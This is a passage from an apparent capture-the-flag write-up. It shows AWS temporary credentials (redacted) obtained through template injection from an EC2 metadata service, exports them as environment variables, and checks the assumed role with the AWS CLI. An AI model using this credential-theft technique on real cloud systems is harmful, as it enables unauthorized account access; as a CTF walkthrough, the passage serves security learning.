 ![metadata](/assets/img/squ1rrel-ctf_2025/ssti_result.png)

```json
{
  "Code": "Success",
  "LastUpdated": "2025-04-07T13:48:01Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "[REDACTED]",
  "SecretAccessKey": "[REDACTED]",
  "Token": "[REDACTED]",
  "Expiration": "2025-04-07T20:09:28Z"
}
```

We found the `AccessKeyId` and `SecretAccessKey` and even the `Token`. I found this [link](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_temp_use-resources.html#using-temp-creds-sdk-cli) how to interace with AWS CLI. <br>

- First let export the credentials to environment variables.
```bash
export AWS_ACCESS_KEY_ID="[REDACTED]"
export AWS_SECRET_ACCESS_KEY="[REDACTED]"
export AWS_SESSION_TOKEN="[REDACTED]"
```

- Then we need to check current identity.
```bash
aws sts get-caller-identity
```
```json
{
    "UserId": "AROAY565SN6N3M5MZ3PPG:i-077237234931c596e",
    "Account": "614108131227",
    "Arn": "arn:aws:sts::614108131227:assumed-role/ec2instancerole/i-077237234931c596e"
}
```
